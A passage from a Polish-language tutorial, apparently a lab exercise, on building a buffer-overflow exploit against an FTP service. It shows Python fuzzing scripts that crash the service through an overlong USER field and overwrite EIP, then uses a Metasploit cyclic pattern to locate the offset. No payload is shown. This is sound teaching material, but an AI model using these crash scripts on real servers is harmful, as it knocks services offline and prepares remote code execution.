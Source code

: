 
- Patrząc na logi z skryptu fuzzującego widzimy, że usługa przestaje działać przy około 256 znaków.

- Następnie modyfikujemy skrypt fuzzujący tak, aby wysyłał jednorazowo 256 bytów.
```
#!/usr/bin/python2
import socket,sys


string = 'A' * 256
print "Fuzzing PASS with %s bytes" % len(string)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.241.133',21))
s.recv(1024)
s.send('USER ' + string + '\r\n')
s.send('QUIT\r\n')
s.close()
```

- Uruchamiamy poprawiony skrypt fuzzujący
![](https://i.imgur.com/o6bQGQ0.png)


- Po wysłaniu danych takiej długości aplikacja przestaje odpowiadać. W debuggerze możemy sprawdzić wartość rejestru EIP. W rejestrze znajdują się znaki "AAAAAAAA". Oznacza to, że wartość ta została nadpisana - buffer został przepełniony
![](https://i.imgur.com/aZCW3gX.png)






## 2. Znalezienie offsetu.

Wiemy już że da się nadpisać adres powrotu, jednakże nie wiemy jeszcze jak dokładnie trafić w ten adres, gdzie musielibyśmy wpisać nowy adres by zmanipulować działanie aplikacji. By dowiedzieć się tego można skorzystać z metasploit-framework znajdującego się na kali linux, a dokładniej z polecenia ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <znaleziona liczba bajtów z poprzedniego punktu>```. W wyniku podania tego polecenia zostanie wygenerowany ciąg znaków, który pomoże nam w zlokalizowaniu dokładnego offsetu rejestru EIP. Otrzymany ciąg należy wkleić jako wysyłany ciąg do skryptu. W naszym przypadku skrypt wyglądał następująco:

```
#!/usr/bin/python2
import socket,sys


string = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A"
print "Fuzzing PASS with %s bytes" % len(string)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.241.133',21))
s.recv(1024)
s.send('USER ' + string + '\r\n')
s.send('QUIT\r\n')
s.close()
```
